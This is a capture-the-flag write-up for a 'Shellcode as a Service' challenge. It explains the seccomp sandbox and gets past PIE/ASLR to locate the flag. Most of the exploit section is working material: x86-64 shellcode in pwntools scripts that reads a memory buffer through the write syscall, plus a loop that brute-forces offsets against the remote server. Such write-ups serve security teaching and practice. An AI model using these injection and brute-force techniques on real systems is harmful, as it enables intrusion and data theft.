## SaaS
 

**Description**

Shellcode as a Service runs any assembly code you give it! For extra safety, you're not allowed to do a lot...

**Write-up**

Application creates a new private mapping in memory of size `0x1000` with RWX permissions. In this new mapping, it will copy a sequence of bytes defined in the #HEADER macro. Afterwards, reads from stdin 0x100 bytes that will map into the memory after the header shellcode. The `setup` function will configure a `seccomp` filter. A seccomp filter limits the number of system calls allowed to be executed by the process.




The syscomp filter will only allow for writes to stdout and exit syscalls. Any other system calls will terminate the program execution.
At this point, the program control flow will jump to the shellcode in memory.

The HEADER shellcode is the following:


The first 5 lines prepare a call to "rep stosq", to store a string in memory, the string will be stored where `rdi` points to. In this case since `rax` was wiped, it clears the memory area. The remaining instructions wipe out the values from all registers.

Debugging the memory we see the loaded instructions.



Passing a couple 'A' bytes to the read function, the "shellcode" was mapped in memory.


The code in memory is then executed, finally reaching the user passed input.



The solution here seems to write some shellcode that reads the flag from the buffer `flag` and prints it to stdout, since any other system call such as `execve` is blocked.

The flag location is at offset `0x0000000000202060` since PIE is enabled.



The difficulty is finding the pointer to flag since PIE and ASLR is enabled.

Using GEF scanned the memory sections to identify if there any pointers to the executable code of the binary.


The command:
```
scan HAYSTACK NEEDLE
scan 0x0000701a28587000-0x0000701a2858a000 0x00005bd8a3400000-0x00005bd8d739a000
```

If the pointer is at: 0x0000701a28588ca0, that is an offset of 7328 bytes from the base address of the mapped shellcode. After some operations we can reach the address of where the flag buffer is and print it out with a syscall to `write`.

```python
io = start()

payload = """
lea rax, [rip]
shr rax,12
shl rax,12
add rax,7328
mov rbx, [rax]
sub rbx,1654
add rbx,0x202060
xor rax,rax
mov rax,1
xor rdi,rdi
mov rdi,1
mov rsi,rbx
mov rdx,60
syscall
"""

shellcode = asm(payload)
io.sendline(shellcode)

io.interactive()
```

This shellcode works locally, successfully printing the flag.


On the remote server nothing is printed. The error could be in multiple places, first attempt at debug was print the string "GLIBC_2" that I found through the `scan` operation.
"GLIBC" is printed locally but not on the remote server.

At this point, since the local and remote memory maps won't have exact same values in same places, decided to bruteforce the challenge.


```python
payload = """
lea rax, [rip]
shr rax,12
shl rax,12
add rax,{0}
mov rbx, [rax]

shr rbx,24
shl rbx,24
add rbx,0x202060

xor rax,rax
mov rax,1
xor rdi,rdi
mov rdi,1
mov rsi,rbx
mov rdx,64
syscall

mov rax, 0x3c
mov rdi,0
syscall
"""

for i in range(695, 1000):
    try:
        io = start()
        io.recvuntil('Welcome to Shellcode as a Service!\n')

        addr = str(6992 + i*8)
        print(addr)
        payload_formatted = payload.format(addr)

        shellcode = asm(payload_formatted)
        io.sendline(shellcode)
        res = io.recv(40)
        print(res)

        if b'pico' in res:
            break
    except:
        pass
```


**Solution**


Flag: picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}


[back](/index)